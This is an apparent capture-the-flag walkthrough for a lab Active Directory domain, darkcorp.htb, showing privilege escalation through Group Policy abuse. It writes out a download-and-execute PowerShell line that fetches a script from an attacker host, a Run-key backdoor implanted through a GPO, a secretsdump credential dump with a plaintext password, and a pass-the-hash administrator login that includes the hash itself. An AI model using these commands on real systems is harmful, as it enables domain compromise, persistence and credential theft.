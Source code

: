```
DisplayName      : SecurityUpdates
DomainName       : darkcorp.htb
Owner            : darkcorp\Domain Admins
Id               : 652cae9a-4bb7-49f2-9e52-3361f33ce786
GpoStatus        : AllSettingsEnabled
Description      : Windows Security Group Policy
CreationTime     : 1/3/2025 3:01:12 PM
ModificationTime : 2/14/2025 5:30:20 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 2, SysVol Version: 2
WmiFilter        :

*Evil-WinRM* PS C:\Users\taylor.b.adm\Documents> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

Attack intent:
Bypass security software detection to ensure that subsequent downloaded malicious scripts (such as `PowerGPOAbuse.ps1`) will not be blocked.

Download and load the `PowerGPOAbuse` script
```
iex(New-Object Net.WebClient).DownloadString('http://10.10.14.17/PowerGPOAbuse.ps1')
```

Add the user to the local administrator group via GPO
```
Add-GPOGroupMember -Member 'taylor.b.adm' -GPOIdentity 'SecurityUpdates
```

Implanting a persistent backdoor via a GPO registry key
```
Set-GPRegistryValue -Name "SecurityUpdates" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "backdoor" -Type String -Value "powershell -Command `"Add-LocalGroupMember -Group 'Administrators' -Member taylor.b.adm`""
```

Force update of Group Policy
```
gpupdate /force
```

Then you can use `impacket-secretsdump` to get the hash and log in to the terminal
```
impacket-secretsdump darkcorp/taylor.b.adm:'!QAZzaq1'@darkcorp.htb
```

I will give you guys the hash here, because it's really hard to control
```
evil-winrm -i dc-01.darkcorp.htb -u "administrator" -H
"fcb3ca5a19a1ccf2d14c13e8b64cde0f"
```
